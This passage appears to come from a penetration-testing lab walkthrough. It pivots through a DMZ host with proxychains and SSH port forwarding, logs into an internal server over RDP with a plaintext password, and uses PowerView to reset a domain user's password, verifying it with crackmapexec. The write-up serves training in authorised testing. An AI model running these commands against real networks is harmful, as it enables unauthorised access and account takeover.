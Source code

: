 ProxyChains-3.1 (http://proxychains.sf.net)
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 13:35 EDT
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.20:80-&lt;&gt;&lt;&gt;-OK
|S-chain|-&lt;&gt;-127.0.0.1:8083-&lt;&gt;&lt;&gt;-172.16.8.20:3389-&lt;&gt;&lt;&gt;-OK
Nmap scan report for 172.16.8.20
Host is up (0.11s latency).

PORT     STATE SERVICE
3389/tcp open  ms-wbt-server

Nmap done: 1 IP address (1 host up) scanned in 0.30 seconds 
</code></pre>
<p>To achieve this, we can use another SSH port forwarding command, this type <code>Local Port Forwarding</code>. The command allows us to pass all RDP traffic to <code>DEV01</code> through the <code>dmz01</code> host via local port 13389.</p>
<pre><code class="language-shell-session">ssh -i dmz01_key -L 13389:172.16.8.20:3389 <a class="__cf_email__" data-cfemail="8cfee3e3f8ccbdbca2bdbeb5a2bebcbfa2bdbdbd" href="/cdn-cgi/l/email-protection">[email protected]</a>
</code></pre>
<p>Once this port forward is set up, we can use <code>xfreerdp</code> to connect to the host using drive redirection to transfer files back and forth easily.</p>
<pre><code class="language-shell-session">xfreerdp /v:127.0.0.1:13389 /u:hporter /p:Gr8hambino! /drive:home,"/home/tester/tools"
</code></pre>
<p>We notice that we only get console access as this server does not have the the Desktop Experience role installed, but all we need is a console. We can type <code>net use</code> to view the location of our redirected drive and then transfer the tool over.</p>
<pre><code class="language-cmd-session">c:\DotNetNuke\Portals\0&gt; net use

New connections will be remembered.


Status       Local     Remote                    Network

-------------------------------------------------------------------------------
                       \\TSCLIENT\home           Microsoft Terminal Services
The command completed successfully.


c:\DotNetNuke\Portals\0&gt; copy \\TSCLIENT\home\PowerView.ps1 .
        1 file(s) copied.
</code></pre>
<p>Next, type <code>powershell</code> to drop into a PowerShell console, and we can use <code>PowerView</code> to change the <code>ssmalls</code> user's password as follows:</p>
<pre><code class="language-powershell-session">PS C:\DotNetNuke\Portals\0&gt; Import-Module .\PowerView.ps1

PS C:\DotNetNuke\Portals\0&gt; Set-DomainUserPassword -Identity ssmalls -AccountPassword (ConvertTo-SecureString 'Str0ngpass86!' -AsPlainText -Force ) -Verbose

VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'ssmalls'
VERBOSE: [Set-DomainUserPassword] Password for user 'ssmalls' successfully reset
</code></pre>
<p>We can switch back to our attack host and confirm that the password was changed successfully. Generally, we would want to avoid this type of activity during a penetration test, but if it's our only path, we should confirm with our client. Most will ask us to proceed so they can see how far the path will take us, but it's always best to ask. We want to, of course, note down any changes like this in our activity log so we can include them in an appendix of our report.</p>
<pre><code class="language-shell-session">[!bash!]$ proxychains crackmapexec smb 172.16.8.3 -u ssmalls -p Str0ngpass86!
